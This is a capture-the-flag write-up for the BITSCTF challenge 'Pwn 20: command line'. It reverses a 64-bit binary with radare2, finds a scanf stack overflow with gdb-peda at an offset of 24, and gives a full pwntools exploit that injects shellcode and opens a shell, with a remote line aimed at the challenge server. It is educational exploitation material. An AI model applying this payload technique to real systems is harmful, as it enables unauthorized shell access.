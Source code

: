 # Pwn 20: command line

**Description:**

Exploit this service and gain shell access to gain profit
(No ASLR)

`nc bitsctf.bits-quark.org 1330`


# Writeup

We get a file [`pwn1`](files/pwn1), let's check some basic info about it with radare2 `r2 -c "iI" pwn1`:

![1](files/1.png?raw=true)

Basically a 64bit elf binary. Let's analyse it with `aaa`:

![2](files/2.png?raw=true)

Now we can "seek" to main `s main` and enter graph view mode `VV`:

![3](files/3.png?raw=true)

We get this nice representation of main:

![4](files/4.png?raw=true)

I've highlighted the basic parts of the function:

1. Prologue: prepare the stack with local variables. Radare seems to have located one single local variable.
2. Body: this is where the magic happens, it first prints the address of the buffer then it will ask for some input and put it in the buffer. Since scanf is reading an arbitrary length of string (`%s`) we can execute a buffer overflow.
3. Epilogue: clean up the stack and return zero as return code. Equivalant to `return 0;` in C.


What we need to do:

1. Create some shellcode
2. Control RIP to jump to the shellcode
3. Craft this in a payload and pwn the service

Let's make it executable `chmod +x pwn1` and fire up gdb with peda.

![5](files/5.png?raw=true)

We'll create a pattern of 40 (`pattern_create 40 40.txt`) and launch the program with that pattern as input (`r < 40.txt`). We get a segmentation fault. To get the offset to RIP register, we simply need to print the value of the stackpointer register (`x/w $rsp`) and use that value in `pattern_offset` command (`pattern_offset 0x44414128`):

![6](files/6.png?raw=true)

We got an offset and it is `24`!

Let's create our [exploit](files/exploit.py) with pwntools:

```
# Import all from pwntools
from pwn import *

# Set context to linux 64bit
context(os='linux', arch='amd64')

# Either local or remote
conn = process('/root/vm_shared/ctf/20_command_line/pwn1')
# conn = remote('bitsctf.bits-quark.org', 1330)

# Offset to RIP
offset = 24
log.info("Offset to buf: %i", offset)

# Get that buffer address
buff_addr = conn.recvline().strip()
log.info("Address is: %s", buff_addr)
buff_addr = int(buff_addr, 16)  # string to int

# Crafting some shellcode with pwntools
shellcode = asm(shellcraft.sh())
log.info("Shell size is: %i", len(shellcode))

# Payload time
log.info("Crafting payload...")
payload = "\x90" * offset + p64(buff_addr + offset + 8) + shellcode

# Pwning~
conn.sendline(payload)

# Get that shell
conn.interactive()

# Get out of there
conn.close()
```

Our payload basically looks like this:

```
| OFFSET TO RIP (24) | address of the shellcode | shellcode | 
```
We calculate the address of the shellcode by using the address of the buffer plus the offset plus 8. You might wonder where 8 came from, well don't forget that the jump address is a 64bit address which takes 8 bytes, we also need to add it!

![7](files/7.png?raw=true)

Got shell! Now we can `cat` the flag by editing the script to remote.
